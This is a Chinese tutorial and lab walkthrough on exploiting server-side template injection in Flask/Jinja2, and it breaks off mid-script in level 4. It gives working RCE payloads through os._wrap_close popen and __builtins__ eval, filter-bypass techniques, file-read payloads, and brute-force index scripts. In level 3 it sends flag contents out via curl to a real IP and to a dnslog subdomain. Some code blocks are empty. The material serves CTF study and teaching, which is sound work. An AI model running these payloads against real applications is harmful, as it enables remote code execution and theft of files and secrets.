







## FLask SSTI从零到入门

- - -

# [前言](#toc_)

SSTI也是一个比较常见的注入，在学习过后，进行简单总结，希望能对正在学习SSTI的师傅有所帮助。

# [相关知识](#toc__1)

[](https://storage.tttang.com/media/attachment/2022/08/14/6837a1bd-0af9-4d01-a47c-2d7818eab2da.png)

## [什么是SSTI](#toc_ssti)

SSTI，服务端模板注入，其实也就是模板引擎+注入，那么我们首先需要了解一下模板引擎

> 模板引擎是为了使用户界面与业务数据分离而产生，它可以生成特定格式的文档，利用模板引擎来生成前端的 HTML 代码，模板引擎会提供一套生成 HTML 代码的程序，然后只需要获取用户的数据，然后放到渲染函数里，然后生成模板 + 用户数据的前端 HTML 页面，然后反馈给浏览器，呈现在用户面前。

模板只是一种提供给程序来解析的一种语法，换句话说，模板是用于从数据（变量）到实际的视觉表现（HTML代码）这项工作的一种实现手段，而这种手段不论在前端还是后端都有应用。

通俗点理解：拿到数据，塞到模板里，然后让渲染引擎将赛进去的东西生成 html 的文本，返回给浏览器，这样做的好处展示数据快，大大提升效率。

常见的模板引擎

```plain
PHP: Smarty, Twig, Blade
JAVA: JSP, FreeMarker, Velocity
Python: Jinja2, django, tornado
```

由于渲染的数据是业务数据,且大多数都由用户提供,这就意味着用户对输入可控.如果后端没有对用户的输入进行检测和判断,那么就容易产生代码和数据混淆,从而产生注入.

## [pycharm搭建flask环境](#toc_pycharmflask)

打开pycharm企业版，点击`file`，选择flask  
[](https://storage.tttang.com/media/attachment/2022/08/14/7cf0781a-2b7a-4f5e-a36b-6ccf5310f729.png)  
默认创建即可[](https://storage.tttang.com/media/attachment/2022/08/14/1d18abc0-fbe0-492e-b790-93714e2b7e5b.png)  
[](https://storage.tttang.com/media/attachment/2022/08/14/246491d9-bda0-441a-92f8-13713ae2a68b.png)  
搭建成功,对内容进行简单讲解如下

```plain
from flask import Flask
//导入Flask类.用于后面实例化出一个WSGI应用程序.
app = Flask(__name__)
//创建Flask实例,传入的第一个参数为模块或包名.
@app.route('/')
//使用route（）装饰器告诉Flask什么样的URL能触发我们的函数.route（）装饰器把一个函数绑定到对应的URL上，这里的话就是把helloworld这个函数与这个url绑定
def hello_world():  # put application's code here
    return 'Hello World!'


if __name__ == '__main__':
    app.run()
app.run()函数让应用在本地启动
```

### [模板渲染](#toc__2)

Flask的模板引擎是`jinja2`，文档可以参考这个  
[https://svn.python.org/projects/external/Jinja-2.1.1](https://svn.python.org/projects/external/Jinja-2.1.1/docs/_build/html/api.html#basics)  
在给出模板渲染代码之前，我们先在本地构造一个html界面作为模板，位置在`"flaskProject\templates\`，也就是模板渲染代码的相同位置下，有一个名`templates`的文件夹，在里面写入一个html文件，内容如下

```plain
<html>
  <head>
    <title>SSTI</title>
  </head>
 <body>
      <h3>Hello, {{name}}</h3>
  </body>
</html>
```

这里的话,`{{}}`内是需要渲染的内容，此时我们写我们的模板渲染代码(app.py)，内容如下

```plain
from flask import Flask, request, render_template

app = Flask(__name__)

@app.route('/',methods=['GET'])
def hello_world():
    query = request.args.get('name') # GET取参数name的值
    return render_template('test.html', name=query) # 将name的值传入模板,进行渲染

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
  //让操作系统监听所有公网 IP,此时便可以在公网上看到自己的web，同时开启debug，方便调试。
```

接下来右键运行  
[](https://storage.tttang.com/media/attachment/2022/08/14/8abb3e02-4a01-44a4-917b-7754e0910753.png)  
访问这个界面[](https://storage.tttang.com/media/attachment/2022/08/14/70e62d09-7824-4d30-9ae2-f43c232c0690.png)  
[](https://storage.tttang.com/media/attachment/2022/08/14/38631ae9-758a-4e5b-808b-58d5eeec7a70.png)  
回显随着参数变化而变化  
可以发现此时的7\*7是没有进行运算的，那这个注入是怎么产生的呢

### [漏洞成因](#toc__3)

当程序员想要偷懒时，把这两个文件合并到一个文件中，就可能造成SSTI模板注入，示例代码如下

```plain
from flask import Flask,request,render_template_string
app = Flask(__name__)

@app.route('/', methods=['GET', 'POST'])
def index():
    name = request.args.get('name')
    template = '''
<html>
  <head>
    <title>SSTI</title>
  </head>
 <body>
      <h3>Hello, %s !</h3>
  </body>
</html>
        '''% (name)
    return render_template_string(template)
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
```

此时我们运行这个文件，去访问一下  
[](https://storage.tttang.com/media/attachment/2022/08/14/f4a0eef6-0923-4a82-8a95-c7f11d65777d.png)  
可以发现里面的语句解析了，这也就意味着产生了SSTI注入，这个时候我们就可以去进行利用了  
我们先不急着去学习如何利用，不妨想一下为什么这里会产生SSTI  
看后面这个有漏洞的代码  
`render_template`函数在渲染模板的时候使用了`%s`来动态的替换字符串，`Flask`中使用了`Jinja2` 作为模板渲染引擎，`{{}}`在`Jinja2`中作为变量包裹标识符，`Jinja2`在渲染的时候会把{{}}包裹的内容进行解析。比如{{7\*7}}会被解析成49。

## [SSTI前置知识](#toc_ssti_1)

在学习SSTI注入之前，我们首先需要了解一些python的魔术方法和内置类

### [—class—](#toc_class)

`__class__`用于返回该对象所属的类  
示例：

```plain
>>> 'abcd'.__class__
<class 'str'>
>>> ().__class__
<class 'tuple'>
```

### [—base—](#toc_base)

`__base__`用于获取类的基类（也称父类）  
示例：

```plain
>>> "".__class__
<class 'str'>
>>> "".__class__.__base__
<class 'object'>
//object为str的基类
```

### [—mro—](#toc_mro)

`__mro__`返回解析方法调用的顺序。（当调用\_mro\_\[1\]或者-1时作用其实等同于\_base\_）  
示例：

```plain
>>> "".__class__.__mro__
(<class 'str'>, <class 'object'>)
>>> "".__class__.__mro__[1]
<class 'object'>
>>> "".__class__.__mro__[-1]
<class 'object'>
```

### [—subclasses—()](#toc_subclasses)

`__subclasses__()`可以获取类的所有子类  
示例

```plain
>>> "".__class__.__mro__[-1].__subclasses__()
[<class 'type'>,<class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>...]
```

## [常用过滤器](#toc__4)

官方介绍[https://jinja.palletsprojects.com/en/3.0.x/templates/#filters](https://jinja.palletsprojects.com/en/3.0.x/templates/#filters)

> 1.  过滤器通过管道符号（|）与变量连接,并且在括号中可能有可选的参数
> 2.  可以链接到多个过滤器.一个滤波器的输出将应用于下一个过滤器.

其实就是可以实现一些简单的功能，比如attr()过滤器可以实现代替`.`，join()可以将字符串进行拼接，reverse可以将字符串反置等等  
具体如下所示

```plain
length() # 获取一个序列或者字典的长度并将其返回

int()：# 将值转换为int类型；

float()：# 将值转换为float类型；

lower()：# 将字符串转换为小写；

upper()：# 将字符串转换为大写；

reverse()：# 反转字符串；

replace(value,old,new)： # 将value中的old替换为new

list()：# 将变量转换为列表类型；

string()：# 将变量转换成字符串类型；

join()：# 将一个序列中的参数值拼接成字符串,通常有python内置的dict()配合使用

attr(): # 获取对象的属性
```

## [SSTI语句构造](#toc_ssti_2)

第一步，拿到当前类，也就是用\_\_class\_\_

```plain
name={{"".__class__}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/e1ded82b-dbf0-4bff-8139-a8d51aaedd7f.png)  
第二步，拿到基类，这里可以用\_\_base\_\_，也可以用\_\_mro\_\_

```plain
name={{"".__class__.__bases__[0]}}
或
name={{"".__class__.__mro__[1]}}
或
name={{"".__class__.__mro__[-1]}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/7317ec8f-4e26-48b9-8bda-c06fdca28337.png)  
第三步，拿到基类的子类，用`__subclasses__()`

```plain
name={{"".__class__.__bases__[0]. __subclasses__()}}
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, 
```

接下来的话，就要找可利用的类，寻找那些有回显的或者可以执行命令的类  
大多数利用的是`os._wrap_close`这个类，我们这里可以用一个简单脚本来寻找它对应的下标

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    url = "http://127.0.0.1:5000/?name=\
        {{().__class__.__bases__[0].__subclasses__()["+str(i)+"]}}"
    res = requests.get(url=url, headers=headers)
    #print(res.text)
    if 'os._wrap_close' in res.text:
        print(i)
```

运行一下  
[](https://storage.tttang.com/media/attachment/2022/08/14/c97e246e-5b0b-4f47-81a1-e2794f34f5c6.png)  
[](https://storage.tttang.com/media/attachment/2022/08/14/ac6e4d25-b711-4930-9fed-bd3e3516dc7e.png)  
接下来就可以利用`os。_wrap_close`，这个类中有`popen`方法，我们去调用它  
首先  
先调用它的\_\_init\_\_方法进行初始化类

```plain
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/8befa05f-5eb6-4cd5-9c8f-3cbf580d1cee.png)  
然后再调用\_\_globals\_\_获取到方法内以字典的形式返回的方法、属性等

```plain
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/ea0ef73f-7eed-446b-9e13-70ff89b57fc2.png)  
此时就可以去进行RCE了

```plain
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('dir').read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/78971b0e-8acd-440d-817d-de3e415bf5a5.png)  
还有一个比较厉害的模块，就是`__builtins__`,它里面有`eval()`等函数，我们可以也利用它来进行RCE  
它的payload是

```plain
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('dir').read()")}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/dcf10253-80ed-454d-8a85-72da3b87d079.png)

# [SSTI常见绕过方式](#toc_ssti_3)

## [绕过.](#toc__5)

当.被ban时，有以下几种绕过方式

```plain
1、用[]代替.，举个例子
{{"".__class__}}={{""['__class']}}
2、用attr()过滤器绕过，举个例子
{{"".__class__}}={{""|attr('__class__')}}
```

## [绕过\_](#toc__)

当`_`被ban时，有以下几种绕过方式

```plain
1、通过list获取字符列表，然后用pop来获取_，举个例子

2、可以通过十六进制编码的方式进行绕过，举个例子
{{()["\x5f\x5fclass\x5f\x5f"]}} ={{().__class__}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/29b9b04c-68e6-4f05-b3d0-bb1bcae08fcb.png)  
[](https://storage.tttang.com/media/attachment/2022/08/14/ae4c5801-2733-4559-8674-51ff98fb38fc.png)

## [绕过\[\]](#toc__6)

经常有中括号被ban的情况出现，这个时候可以使用`__getitem__` 魔术方法，它的作用简单说就是可以把中括号转换为括号的形式，举个例子

```plain
__bases__[0]=__bases__.__getitem__(0)
```

[](https://storage.tttang.com/media/attachment/2022/08/14/299a9c8f-5dee-4566-8e66-88fda0c87c3b.png)

## [绕过{{](#toc__7)

有时候为了防止SSTI，可能程序员会ban掉{{，这个时候我们可以利用jinja2的语法，用{%来进行RCE，举个例子  
我们平常使用的payload

```plain
{{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('dir').read()}}
```

修改后的payload

```plain

```

[](https://storage.tttang.com/media/attachment/2022/08/14/0353d474-c459-40f1-9d62-b93562966072.png)  
也可以借助for循环和if语句来执行命令

```plain

```

[](https://storage.tttang.com/media/attachment/2022/08/14/899728a5-39ec-4a4d-84e7-fc8978874e78.png)

## [绕过单引号和双引号](#toc__8)

当单引号和双引号被ban时，我们通常采用`request.args.a`，然后给a赋值这种方式来进行绕过，举个例子

```plain
{{url_for.__globals__[request.args.a]}}&a=__builtins__  等同于 {{url_for.__globals__['__builtins__']}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/33d747c3-0806-42ed-8a35-1a36a6e08b25.png)

## [绕过args](#toc_args)

当使用args的方法绕过`'`和`"`时，可能遇见args被ban的情况，这个时候可以采用`request.cookies`和`request.values`，他们利用的方式大同小异，示例如下

```plain
GET:{{url_for.__globals__[request.cookies.a]}}
COOkie: "a" :'__builtins__'
```

[](https://storage.tttang.com/media/attachment/2022/08/14/f4592a7f-bbcb-4a4b-ae9f-fee16975d33c.png)

[](https://storage.tttang.com/media/attachment/2022/08/14/8aafea57-159d-4232-8513-08d3a4322420.png)

## [绕过数字](#toc__9)

有时候可能会遇见数字`0-9`被ban的情况，这个时候我们可以通过count来得到数字，举个例子

```plain
{{(dict(e=a)|join|count)}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/9d7e89ea-a96b-4d52-a0d6-56f256165654.png)

## [绕过关键字](#toc__10)

有时候可能遇见`class`、`base`这种关键词被绕过的情况，我们这个时候通常使用的绕过方式是使用join拼接从而实现绕过，举个例子

```plain
{{dict(__in=a,it__=a)|join}}  =__init__
```

[](https://storage.tttang.com/media/attachment/2022/08/14/30c9d9c4-f7b1-418c-a09c-8a308b9272c8.png)

# [常用payload](#toc_payload)

```plain
1、任意命令执行

2、任意命令执行
{{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('cat /flag').read()}}
//这个138对应的类是os._wrap_close，只需要找到这个类的索引就可以利用这个payload
3、任意命令执行
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('dir').read()")}}
4、任意命令执行
{{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
//x的含义是可以为任意字母，不仅仅限于x
5、任意命令执行
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
6、文件读取
{{x.__init__.__globals__['__builtins__'].open('/flag', 'r').read()}}
//x的含义是可以为任意字母，不仅仅限于x
```

# [实战刷题](#toc__11)

## [SSTI-labs](#toc_ssti-labs)

GitHub链接  
[https://github.com/X3NNY/sstilabs](https://github.com/X3NNY/sstilabs)

### [level 1](#toc_level-1)

这关显示未设置过滤  
此时就可以尝试利用的payload进行RCE  
常见的思路就是找类，找类的基类，找基类的子类，然后找可以RCE的模块  
我们这里的话，还是用`os._wrap_close`这个类，  
把之前的脚本改一下就可以寻找这个类了

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    url = "http://192.168.134.132:5000/level/1"
    data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+']}}'}
    res = requests.post(url=url,data=data, headers=headers)
    #print(res.text)
    if 'os._wrap_close' in res.text:
        print(i)
```

[](https://storage.tttang.com/media/attachment/2022/08/14/2a523036-25f4-4d4d-8145-397147885da5.png)  
因此我们这里构造payload如下

```plain
{{"".__class__.__bases__[0]. __subclasses__()[133].__init__.__globals__['popen']('cat flag').read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/a8e2d4e1-0947-4cef-b6ba-66d744900879.png)

也可以利用它的循环语句来进行获取flag

```plain

```

不想找类的话，这里可以偷懒一下，用`__builtins__`模块来进行RCE

```plain
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/ffc7dd18-a845-4c92-8eba-73a15c36ea1e.png)  
利用这个模块的话，还有其他几种payload方式，罗列如下

```plain
{{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

### [level 2](#toc_level-2)

[](https://storage.tttang.com/media/attachment/2022/08/14/4ba8967c-2ac8-4af3-a6b0-4032d10b8097.png)

过滤了`{{`  
这个时候可以考虑用`{%`,利用上关的思路，多加个print就可以  
简单修改一下脚本

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://192.168.134.132:5000/level/2"
        data={"code":''}
        res = requests.post(url=url,data=data, headers=headers)
        #print(res.text)
        if 'os._wrap_close' in res.text:
            print(i)
    except:
        pass
```

[](https://storage.tttang.com/media/attachment/2022/08/14/90aaa944-2f86-4702-b39d-4317f657f8cb.png)  
构造payload

```plain

```

或者也可以用循环语句

```plain

```

或者那种循环语句，在level1中也提及过

```plain

```

[](https://storage.tttang.com/media/attachment/2022/08/14/eefc4e22-065d-4615-9ad0-b370f519206d.png)

### [level 3](#toc_level-3)

题目描述  
[](https://storage.tttang.com/media/attachment/2022/08/14/c8d1a0e8-2064-4672-a2bf-25fde757363e.png)  
进入环境简单测试一下，发现只回显正确与错误，如下图  
[](https://storage.tttang.com/media/attachment/2022/08/14/d6d8562a-4563-41f3-a7c0-5f874b3326e5.png)  
这个时候就可以考虑用VPS监听来获取flag，具体payload的话，我们仍然可以用之前的姿势，将脚本简单改一下就可以，如下所示

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://xxx.xxx.xxx.xxxx:5000/level/3"
        data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("curl http://124.222.255.142:7777/`cat flag`").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)

    except:
        pass
```

然后在vps上监听7777端口即可  
[](https://storage.tttang.com/media/attachment/2022/08/14/66562dae-002a-434b-a24c-192d81c5094e.png)  
或者利用dns外带，也是可以的,构造脚本如下  
这个的话我们需要先了解一下dns这个东西，可以参考这篇文章[https://xz.aliyun.com/t/9747](https://xz.aliyun.com/t/9747)  
我们这里先测试一下，进入网站[http://dnslog.cn/](http://dnslog.cn/)  
点一下这个  
[](https://storage.tttang.com/media/attachment/2022/08/14/3bca8a52-b9d4-48dc-9d3d-6c3ba6219583.png)  
出现了`mlbj8n.dnslog.cn`  
此时我们打开cmd，利用ping命令执行一下命令

```plain
ping %username%.mlbj8n.dnslog.cn
```

[](https://storage.tttang.com/media/attachment/2022/08/14/82585217-de9c-4180-93da-690c35e83258.png)  
此时打开网站，点击这个  
[](https://storage.tttang.com/media/attachment/2022/08/14/ce41976d-1b9e-4a2a-a2fb-f2205a61af78.png)  
[](https://storage.tttang.com/media/attachment/2022/08/14/2b69e561-e7ff-4cfd-bbec-c4b620a9d86a.png)  
可以发现将username回显了出来，也就是说它对里面的命令进行了解析，根据这点，我们这里同样也可以执行 `cat flag`这种语句，我们构造脚本如下

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://192.168.134.132:5000/level/3"
        data={"code":'{{().__class__.__bases__[0].__subclasses__()['+str(i)+'].__init__.__globals__["popen"]("curl http://`cat flag`.o78kma.dnslog.cn").read()}}'}
        res = requests.post(url=url,data=data, headers=headers)
        #print(res.text)
        if 'correct' in res.text:
            print(i)

    except:
        pass
```

说是脚本，其实也就是在找到`os._wrap_close`类之后执行了一个curl语句而已，我们在知道这个类的位置后，可以直接进行攻击，构造如下payload

```plain
{{().__class__.__bases__[0].__subclasses__()[133].__init__.__globals__["popen"]("curl http://`cat flag`.o78kma.dnslog.cn").read()}}
```

[](https://storage.tttang.com/media/attachment/2022/08/14/c9bc0e7e-cb6d-4f79-a456-fa55f738c112.png)

[](https://storage.tttang.com/media/attachment/2022/08/14/63195210-5f10-4d2e-8ec8-7cedd8b7141c.png)

### [level 4](#toc_level-4)

[](https://storage.tttang.com/media/attachment/2022/08/14/320de3ba-660d-44fe-8f96-8529fafe2b81.png)  
题目描述，过滤了`[]`中括号，这里的话可以用`__getitem()__`来代替\[\]，简单一点理解的话，如下所示

```plain
"".__class__.__mro__[1]="".__class__.__mro__.__getitem__(2)
```

所以这里的话，我们简单修改一下之前的脚本就可以继续执行了

```plain
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
